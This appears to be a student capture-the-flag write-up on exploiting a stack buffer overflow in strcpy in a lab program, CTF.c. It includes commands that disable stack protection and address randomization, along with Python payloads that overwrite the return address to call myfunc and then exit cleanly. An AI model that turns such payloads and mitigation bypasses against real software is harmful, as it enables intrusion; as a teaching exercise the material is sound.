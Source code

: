 # Understand CTF.c 
For a 32-bit virtual machine:
- A pointer needs to store a 32-bit address, which requires 4 bytes.
Exploitation Plan:
- Overwrite buf to execute myfunc
- Difficult due to multiple traps that cause the program to return before obtaining the flag.
- When called fraudulently, the two arguments q and p are not on the stack.
- Determine the locations of the arguments to inject the values properly.
## Under stand how Stackframe in this context
- Starting stackframe
  ![image](https://github.com/user-attachments/assets/899f86d8-975b-4d4b-a4c3-8b579eddda8a)
- Myfunc's stackframe
  ![image](https://github.com/user-attachments/assets/380de9c3-0350-4c03-986e-4bbbaee12d81)
- When buffer-overflow happens, it will look like this
  ![image](https://github.com/user-attachments/assets/b2700e22-b4c8-49a1-9fb2-9263c2882989)  
=> Therefore, the ebp (base pointer) of the main() function must hold the value of p, and the return address (ret addr) of main() must contain the value of q.
## Vulnerbility
The vulnerability is in strcpy(buf, s) at line 31. 
# Start attacking CTF.c
## compile CTF.c with gcc
`gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2`
![image](https://github.com/user-attachments/assets/50491f3d-8784-4682-baca-162db99bc07f)
## Adjust the system settings to disable address randomization
`sudo sysctl -w kernel.randomize_va_space=0`  
![image](https://github.com/user-attachments/assets/3fde9551-4ee7-41e4-a52c-cb159002d517)
## Run python file with p and q has the address the same with the given myfunc
`./ctf.out $(python -c "print(104*'a' + '\x1b\x85\x04\x08' + 4*'a' + '\x11\x12\x08\x04' + '\x62\x42\x64\x44')")`  
![image](https://github.com/user-attachments/assets/2eda6c14-d30b-4bce-a980-5942244b490d)
## Covering track (leaving no footsteps) by giving return address with exit's address
- Load the ctf to gdb by `gdb -q ctf` and `info func` to see all function including exit
  ![image](https://github.com/user-attachments/assets/fcf63f98-124e-4143-9eb5-b5a8a272dc1c)
- Now remove the **(4 * 'a')** with the exit's address and see the result (remember to type `q` in gdb to exit)
  `./ctf.out $(python -c "print(104*'a' + '\x1b\x85\x04\x08' + '\xe0\x83\x04\x08' + '\x11\x12\x08\x04' + '\x62\x42\x64\x44')")`
  ![image](https://github.com/user-attachments/assets/994630e4-aee9-4536-96a0-c3e2d5cbeaf1)
